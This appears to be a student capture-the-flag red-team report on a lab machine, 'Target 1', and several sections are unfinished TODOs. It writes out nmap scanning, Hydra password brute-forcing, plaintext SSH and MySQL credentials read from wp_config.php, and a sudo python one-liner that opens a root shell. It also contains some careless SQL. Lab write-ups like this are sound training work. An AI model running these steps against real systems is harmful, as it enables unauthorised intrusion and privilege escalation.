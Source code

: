 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV 192.168.1.110
  # TODO: Insert scan output
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target 	  system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an 	  SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract 	  confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the 	  system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I 	was able to run the grep command in the /var directory and 		discovered flag1 was contained in /var/www/html/service.html.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cd /var
	- grep -rnw ./ -e flag1 2>/dev/null

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I 		was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cd /var/www
	- cat flag2.txt

  - 'flag3': afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select the flag out of wp_posts in the mysql 		database after obtaining the credentails in 		/var/www/html/wp_config.php.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cat /var/www/html/wp_config.php
	- mysql -u root -p (password R@v3nSecurity)
	- USE wordpress;
	- USE wp_posts;
	- SELECT * FROM wp_posts;

  - 'flag4.txt': 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - python can be run with sudo.
      - After cracking steven's password hash using john the ripper, it 	was discovered that steven could run python with sudo 	priviliages.
      - Using a simple command I was able to execute a shell with root 	privilages and flag4 was found in the /root directory.
     - Commands run:
	- ssh steven@192.168.1.110 (password pink84)
	- python -c 'import os; os.system("/bin/sh")'
	- cat /root/flag4.txt
